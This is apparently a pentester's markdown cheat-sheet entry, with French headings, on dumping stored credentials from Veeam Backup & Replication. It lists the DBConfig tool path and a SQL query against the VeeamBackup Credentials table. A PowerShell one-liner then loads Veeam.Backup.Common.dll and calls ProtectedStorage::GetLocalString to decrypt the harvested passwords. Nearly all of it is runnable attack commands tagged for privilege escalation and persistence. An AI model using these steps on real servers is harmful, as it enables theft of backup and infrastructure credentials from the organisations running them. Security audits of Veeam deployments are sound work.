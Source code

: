 # saz-veeam.md

#plateform/windows
#target/local
#cat/PRIVESC
#cat/PERSIST
#cat/SAJJAD
#tag/curl

## VEEAM Get DataBase (DIR)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\
```

## VEEAM Get DataBase (Run As Administrator)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\Veeam.Backup.DBConfig.exe
```

## VEEAM - Récupérer les MDP DB step 1/2: SQL
```
SELECT TOP 100 [id], [user_name], [password], [usn], [description], [visible], [change_time_utc] FROM [VeeamBackup_New].[dbo].[Credentials];
```

```
<!-- ## VEEAM - Récupérer les MDP DB step 2/2: PowerShell
"$encoded= "<PASSWORD_HASH>""
Add-type -path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"
[Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded) -->
```

## VEEAM - Récupérer les MDP DB step 2/2: PowerShell
```
Add-Type -Path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"; [Veeam.Backup.Common.ProtectedStorage]::GetLocalString("<PASSWORD_HASH>")
```
